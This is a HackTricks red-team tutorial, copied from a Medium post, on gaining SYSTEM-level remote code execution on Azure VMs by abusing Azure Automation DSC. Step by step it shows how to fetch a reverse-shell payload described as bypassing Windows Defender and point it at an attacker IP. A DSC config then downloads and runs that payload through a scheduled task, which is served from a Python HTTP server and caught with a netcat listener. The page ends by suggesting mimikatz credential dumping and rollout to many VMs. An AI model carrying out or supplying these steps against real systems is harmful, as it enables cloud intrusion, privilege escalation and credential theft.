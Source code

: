 # Az - State Configuration RCE

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

**This post was copied from** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Remote Server (C2) Infrastructure Preparation <a href="#f0fa" id="f0fa"></a>

I will be hosting a stripped-down version of the Nishang Invoke-PowerShellTcp.ps1 payload from the remote server “40.84.7.74”, which is the Kali box. The payload name will be “RevPS.ps1”. To prevent the Nishang script getting deleted by Windows Defender for any reason (maybe you’d rather drop the file to disk) I have a lightweight version here that you can use which will bypass Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). This will be hosted by a simple Python Simple Server on the Kali box.

### Step 1 — Create Files <a href="#89de" id="89de"></a>

We’ll need to create another DSC configuration file. A template can be downloaded here: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). This config file will use the same file-write function that we previously used. This time, the contents include code to download and execute a payload from our remote server. Also, we’re using a scheduled-task function available from the _ComputerManagementDsc_ module. The scheduled-task function will be the key role in execution and providing us with SYSTEM privileges later on.

We’ll also download a script which will be used to publish our configuration to the VM. This is located here: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

These files will serve as a template. **You’ll need to fill in the variable names and parameters with what you’re using**. This includes the resource names, file paths, and the external server/payload names that you’re using. Please refer to the comments in the code.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Step 2 — Zip Configuration File <a href="#c2c2" id="c2c2"></a>

With our two files created, we’ll zip the **‘reverse\_shell\_config.ps1’** file so it can be sent to the Storage Account

```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```

<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### Step 3 — Set Storage Context & Upload <a href="#bed9" id="bed9"></a>

Again, we’ll setup the context of our Storage Account which I’ve already done. I already have a container named ‘**azure-pentes**t’ so this is where I’ll be publishing mine:

```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```

<figure><img src="../../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### Step 4 — Prep Kali Box <a href="#20fb" id="20fb"></a>

In our Kali box, we can simply _wget_ our PowerShell payload. The raw reverse-shell script is located here: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).

```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```

<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

We need to edit the reverse-shell script by adding our parameters in, so the Windows VM knows where to connect to once it’s executed. In my case I add following:

```
RevPShell -Reverse 40.84.7.73 443
```

<figure><img src="../../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### Step 5 — Publish Configuration File <a href="#9ad6" id="9ad6"></a>

Now we’ll run our configuration file. I have mine setup to be published to the Desktop for a better visual, however it can be published just about anywhere. After a couple of minutes, we’ll see that the reverse-shell script has been published!

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Step 6 — Host Payload and Setup Listener <a href="#c55f" id="c55f"></a>

Once we publish the configuration, we can concurrently start a Python SimpleHTTPServer over port 80 to host the payload, along with a netcat listener in order to catch the connection:

```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```

We see that the scheduled task has run and our payload was retrieved and executed in memory with **SYSTEM** level privileges!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Wrapping Up <a href="#1ec2" id="1ec2"></a>

This now opens the door for many possibilities. Since we have a shell running as **SYSTEM,** we can dump credentials with mimikatz (potentially risky depending on how mature the EDR is for cloud resources). If you dump creds , there's a good chance that these can be reused elsewhere across different resources. Lastly, a big takeaway is that instead of limiting this to one VM, you now have the ability to potentially apply this configuration across multiple VM’s.

On that note, this concludes our Azure Automation DSC adventures! I hope you had fun, learned a lot and continue to expand with your own creativity.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
